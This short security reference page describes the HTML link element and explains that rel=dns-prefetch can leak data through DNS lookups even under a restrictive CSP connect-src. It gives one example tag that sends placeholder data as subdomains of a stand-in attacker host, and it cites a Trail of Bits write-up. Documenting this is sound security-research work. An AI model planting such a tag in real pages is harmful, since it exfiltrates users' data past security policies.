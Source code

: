 # Overview

The [&lt;link&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/link) HTML element specifies relationships between the current document and an external resource. This element is most commonly used to link to stylesheets, but is also used to establish site icons (both "favicon" style icons and icons for the home screen and apps on mobile devices) among other things.

# rel=dns-prefetch

The [dns-prefetch](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/rel/dns-prefetch) keyword for the `rel` attribute is a hint to browsers that the user is likely to need resources from the target resource's origin, and therefore the browser can likely improve the user experience by preemptively performing DNS resolution for that origin. It can be used to exfiltrate data in subdomains even with the restrictive CSP `connect-src` directive.

```html
<link rel="dns-prefetch" href="//AAA.BBB.CCC.DDD.attacker.webserver.com">
```

References:
- [Trail of Bits Blog: Escaping misconfigured VSCode extensions](https://blog.trailofbits.com/2023/02/21/vscode-extension-escape-vulnerability/)
